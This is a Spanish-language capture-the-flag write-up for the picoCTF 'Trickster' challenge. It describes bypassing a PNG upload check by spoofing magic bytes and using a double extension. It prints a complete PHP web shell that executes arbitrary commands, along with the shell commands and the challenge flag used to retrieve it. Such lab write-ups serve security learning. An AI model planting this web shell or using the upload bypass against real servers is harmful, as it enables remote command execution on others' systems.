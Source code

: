 # Trickster

## Descripcion

## Solucion
Vemos un sitio en el cual podemos subir archivos png, probamos a subir un archivo, pero relamente no pasa nada. 
Revisamos los robots.txt y encontramos algo muy interesante:

```robots.txt
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

Entonces vamos a ver que esta en el archivo instructions.txt
Vemos que para saber si algo es una imagen, solo se verifican los magic bytes, entonces podemos subir cualquier archivo, incluso archivos que no sean png siempre y cuando los alteremos

```Instrucciones
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Entonces, vemos que el sitio solo esta validando que el archivo sea png, para lo cual, vamos a cambiar los magic bytes de un archivo para hacerlo pasar como png y puesto que tambien verifica el nombre, lo renombraremos, el archivo que voy a usar es una shell de php:
```php 
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>

```

Con una herramienta como hexedit, edito los bytes:
```
00000000   50 4E 47 6D  6C 3E 0A 3C  62 6F 64 79  3E 0A 3C 66  6F 72 6D 20  6D 65 74 68  6F 64 3D 22  PNG
```
Y lo renombro como: shell.png.php
Lo subimos y despues nos vamos a buscarlo a la carpeta `/uploads`
Asi conseguimos una web shell para ejecutar comandos, asi que vamos buscando la bandera:
```sh
pwd
ls ../
#GQ4DOOBVMMYGK.txt
#index.php
#instructions.txt
#robots.txt
#uploads
cat ../GQ4DOOBVMMYGK.txt
#/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */
```

Y asi encontramos la flag:
```flag
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}
```
## Notas adicionales

## Referencias
